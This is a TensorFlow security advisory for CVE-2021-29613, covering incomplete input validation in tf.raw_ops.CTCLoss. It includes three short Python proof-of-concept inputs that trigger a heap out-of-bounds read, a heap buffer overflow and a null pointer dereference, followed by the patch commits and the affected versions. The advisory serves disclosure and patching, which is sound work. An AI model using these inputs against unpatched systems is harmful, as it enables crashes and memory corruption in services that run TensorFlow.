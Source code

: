 ## TFSA-2021-101: Incomplete validation in `tf.raw_ops.CTCLoss`

### CVE Number
CVE-2021-29613

### Impact
Incomplete validation in `tf.raw_ops.CTCLoss` allows an attacker to trigger an
OOB read from heap:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[10, 16, 0], dtype=tf.float32)
labels_indices = tf.constant([], shape=[8, 0], dtype=tf.int64)
labels_values = tf.constant([-100] * 8, shape=[8], dtype=tf.int32)
sequence_length = tf.constant([-100] * 16, shape=[16], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=True, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=True)
```

An attacker can also trigger a heap buffer overflow:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[7, 2, 0], dtype=tf.float32)
labels_indices = tf.constant([-100, -100], shape=[2, 1], dtype=tf.int64)
labels_values = tf.constant([-100, -100], shape=[2], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

Finally, an attacker can trigger a null pointer dereference:

```python
import tensorflow as tf

inputs = tf.constant([], shape=[0, 2, 11], dtype=tf.float32)
labels_indices = tf.constant([], shape=[0, 2], dtype=tf.int64)
labels_values = tf.constant([], shape=[0], dtype=tf.int32)
sequence_length = tf.constant([-100, -100], shape=[2], dtype=tf.int32)

tf.raw_ops.CTCLoss(inputs=inputs, labels_indices=labels_indices,
                   labels_values=labels_values, sequence_length=sequence_length,
                   preprocess_collapse_repeated=False, ctc_merge_repeated=False,
                   ignore_longer_outputs_than_inputs=False)
```

### Patches
We have patched the issue in GitHub commit
[14607c0707040d775e06b6817325640cb4b5864c](https://github.com/tensorflow/tensorflow/commit/14607c0707040d775e06b6817325640cb4b5864c)
followed by GitHub commit
[4504a081af71514bb1828048363e6540f797005b](https://github.com/tensorflow/tensorflow/commit/4504a081af71514bb1828048363e6540f797005b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
